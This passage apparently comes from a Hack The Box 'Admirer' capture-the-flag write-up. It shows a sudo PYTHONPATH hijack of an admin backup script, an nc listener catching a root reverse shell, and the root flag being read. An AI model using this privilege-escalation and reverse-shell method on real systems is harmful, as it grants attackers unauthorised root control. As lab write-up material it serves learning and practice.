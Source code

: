 Execution:

```
waldo@admirer:/var/tmp/snow$ sudo -E PYTHONPATH=/var/tmp/snow /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

Shell:

```
root@kali:~/htb/admirer# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.187] 40322
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
f24b1746556cc00321b58a6f6842bed7
```

